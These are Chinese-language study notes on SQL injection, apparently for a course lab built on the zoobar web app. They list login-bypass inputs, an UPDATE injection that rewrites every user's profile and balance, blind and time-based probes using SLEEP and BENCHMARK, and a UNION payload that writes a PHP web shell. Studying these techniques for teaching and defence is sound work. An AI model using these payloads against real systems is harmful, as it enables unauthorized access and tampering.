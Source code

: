 1. 查询例子,数据库中有a、b,没有ccc  
    SQL语句为`Select * from Person where name = '$username' and password = '$password';`
   - a' #        可以登录,用户为a
   - ccc' or 1#  可以登录,用户为a;由于ccc不存在,所以where结果为 false or true,查询全部集并使用第一行
   - a' and '1   不能登录
   - b' or '1    可以登录,用户为b;先做了and运算,然后or运算
   - b' or 1 #   可以登录,用户为第一个用户a
2. 更新例子,以zoobar为例  
    SQL语句为`UPDATE Person set Profile='$profile' where userid = '$userid'`
   - hello',zoobar=100 # 可以更新,所有用户简介都hello,zoobar变成1
   - hello',Zoobars='100 可以更新
3. 想知道数据库的信息,可以通过`打印错误`和`盲注`等方法完成.
   - Select BENCHMARK(1000000,)
   - select USER(),DATABASE();
   - select * from Person where name = 'lzw' and sleep(2);#返回empty set(2.0 sec)
   - if(ascii(DATABASE())>96,SLEEP(2),1)
4. 从SQL注入到web shell
   - select * from Person into outfile "/tmp/1.txt";#将表1内容输出到文件
   - select * from Person union select 1,<?php system($_GET["cmd"])?>;#将system语句注入进去
5. sqlmap